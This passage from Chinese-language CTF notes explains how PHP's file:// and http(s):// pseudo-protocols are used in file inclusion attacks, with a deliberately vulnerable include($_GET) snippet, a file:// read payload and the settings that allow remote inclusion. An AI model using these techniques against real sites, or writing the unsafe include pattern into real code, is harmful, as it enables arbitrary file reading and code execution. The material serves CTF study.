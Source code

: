 ### file://

- file:// — 访问本地文件系统；
  ctf中常用于读取本地文件、配合curl_exec实现任意文件读取（curl支持伪协议）

- 不受`allow_url_fopen`、`allow_url_include`影响

- 运用：
  ```
  ?xxx=file://文件的绝对路径和文件名
  
  eg: ?xxx=file://C:/Users/ls/Desktop/1.txt
  ```

  eg：file://读取+文件包含
  
  > 1.php：
  >
  > ```php
  > <?php
  > if(isset($_GET['hhh'])){
  >  include $_GET['hhh'];
  > }
  > ?>
  > ```
  > 1.txt：
  >
  > ```php
  > <?php phpinfo(); ?>
  > ```
  
  
  ![成功读取并包含啦](https://i.loli.net/2021/02/24/g6w8WleFGKiBhQY.png)

### http://、https://

- http:// -- https:// — 访问 HTTP(s) 网址；允许通过 `HTTP 1.0` 的 GET方法，以只读访问文件或资源；
  ctf中通常用于远程包含

- `allow_url_fopen`:on 
  `allow_url_include` :on

- 运用：

  ```
  http://url/file.php
  http://user:password@example.com
  ```

  eg:

![先打开allow_url_fopen和allow_url_include](https://i.loli.net/2021/02/24/PtXaz51VJiH8ujB.png)

![远程包含~](https://i.loli.net/2021/02/24/Zpq9OTWVRJvbMfo.png)

### zip:// & bzip2:// & zlib://
